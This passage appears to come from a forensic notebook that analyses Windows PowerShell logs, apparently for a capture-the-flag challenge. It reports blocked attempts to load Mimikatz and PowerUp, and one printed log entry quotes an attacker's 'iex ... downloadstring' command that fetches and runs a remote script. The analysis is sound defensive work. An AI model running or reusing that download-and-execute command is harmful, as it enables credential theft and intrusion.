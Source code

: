     
    User Data:
    
    


According to what we can get from these messages, there were 4 attempts to execute Mimikatz in memory by downloading the script using PowerShell from a GitHub repository. All attempts failed and were blocked by the AV. Additonally, there were 5 attempts to download a text file in memory and then executing Invoke-AllChecks. This command is used when executing *PowerUp* script, which allows for quite an efficient detection of misconfiguration on the targeted system. All in all, this activity was aimed at obtaining information related to privilege escalation vectors. 


```python
with open("simple_analysis_reports/3_blocked_scripts_contents_overview.txt", 'w') as fh:
    for s in blocked_scripts:
        fh.write(f"\n{s}\n")
```


```python
print(f"\n{blocked_scripts[0]}\n")
print(f"\nThe number of scripts which were blocked: {len(blocked_scripts)}\n")
```

    
    Error Message = At line:1 char:1
    + function Invoke-Mimikatz
    + ~~~~~~~~~~~~~~~~~~~~~~~~
    This script contains malicious content and has been blocked by your antivirus software.
    Fully Qualified Error ID = ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
    
    
    Context:
            Severity = Warning
            Host Name = ConsoleHost
            Host Version = 5.1.17763.1
            Host ID = b9c1b4df-8e46-4c7e-8691-af4dbca27453
            Host Application = powershell -ep bypass -c iex(new-object net.webclient).downloadstring('https://gist.githubusercontent.com/phwRi7EUp/146c73e8d28eab5c8b546861e06226e7/raw/881106760796a219711035fba797bafe76f22368/SFRCezhMdTNfNzM0bV9GMHIzdjNSfSAg.ps1');
            Engine Version = 5.1.17763.1
            Runspace ID = 88aaf2d8-fc40-40bf-8912-af97dbf95eeb
            Pipeline ID = 1
            Command Name = Invoke-Expression
            Command Type = Cmdlet
            Script Name = 
            Command Path = 
            Sequence Number = 15
            User = WIN-PTFPHFCRDJ0\user
            Connected User = 
            Shell ID = Microsoft.PowerShell
    
    
    User Data:
    
    